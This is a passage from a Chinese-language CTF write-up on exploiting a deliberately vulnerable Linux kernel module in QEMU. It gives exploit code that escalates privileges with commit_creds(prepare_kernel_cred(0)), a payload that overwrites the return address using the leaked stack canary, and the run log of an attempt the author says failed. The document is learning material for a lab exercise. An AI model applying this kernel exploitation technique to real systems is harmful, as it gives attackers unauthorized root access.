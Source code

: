需要注意：promote_root函数一定不能有参数，因为是直接jmp到该函数执行的，没有进行参数准备的操作。

方式2：传递给name变量用于覆盖ret_address的值地址不是promote_root函数的地址，而是从mov %rbp，%rsp开始执行，那么执行后的栈空间布局如下：

> |--rip(ioctl)--|--rbx(ioctl)--|--size=0x10--|

最后只需要mov %rsp,%rbp,然后正常执行leave和retn指令即可

promote_root代码：

```c
void promote_root()
{

    int (*commit_cred)(struct cred *new);
    struct cred *(*prepare_kernel_cred)(struct task_struct *daemon);

    commit_cred = commit_cred_addr;
    prepare_kernel_cred =  prepare_kernel_cred_addr;
    (*commit_cred)((*prepare_kernel_cred)(0));
    asm("mov %rbp,%rsp");//因为反汇编看出缺少部分内容
    asm("xor %rax,%rax");//设置返回值为0
    return;    
}
```

name设置 ：

```c
    unsigned long long name_payload[11];
    memset(name_payload,0x90,sizeof(name_payload));
    name_payload[8] = canary;//canary
    name_payload[10] = (&promote_root)+5;//rip
    printf("promote_root:%016llx\n",&promote_root);
    printf("promote_root+5:%016llx\n",name_payload[10]);
    printf("name_payload_len:%u\n",sizeof(name_payload));
```

+5 表明跳过了如下代码：

> .text:00000000000012A9 F3 0F 1E FA                 endbr64
> .text:00000000000012AD 55                          push    rbp

PS：失败了，不知道什么原因，最终会报错(后面在check下）：

```bash
/ $ ./exp-1
bccab44321adcd00 00007fffeb602060 ffffffffc03e419b ffff8c361f99cb40 ffffffff835dd6d1 000000000000889b ffff8c361fa5c500 ffffffff8358ecfa 0000000000000026 0000000000000000 0000000000000000 
get canay is:bccab44321adcd00
commit_cred:ffffffff8349c8e0
prepare_kernel_cred:ffffffff8349cce0
promote_root:0000558988bed2a9
promote_root+5:0000558988bed2ae
name_payload_len:88
[   44.476640] core: called core_writen
[   44.508902] general protection fault: 0000 [#1] SMP NOPTI
[   44.518681] Modules linked in: core(O)
[   44.523341] CPU: 0 PID: 1008 Comm: exp-1 Tainted: G           O     4.15.8 #19
[   44.527527] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.13.0-1ubuntu1 04/01/2014
[   44.531814] RIP: 0010:unuse_pde+0x5/0x20
[   44.535423] RSP: 0018:ffffad8d0016fe78 EFLAGS: 00000246
[   44.537718] RAX: 00000000ffffffff RBX: 9090909090909090 RCX: 00000000000000cd
[   44.539627] RDX: 00000000000000cc RSI: 0000000000000040 RDI: 9090909090909090
[   44.541591] RBP: ffff8c361f99cb40 R08: ffff8c3617f87368 R09: 0000000000000000
[   44.544240] R10: 0000000000000000 R11: 0000000000000000 R12: ffff8c361b427270
[   44.547003] R13: 000000006677889a R14: ffffffffffff0058 R15: 0000000000000000
[   44.549736] FS:  00007fce010f1740(0000) GS:ffff8c361ca00000(0000) knlGS:0000000000000000
```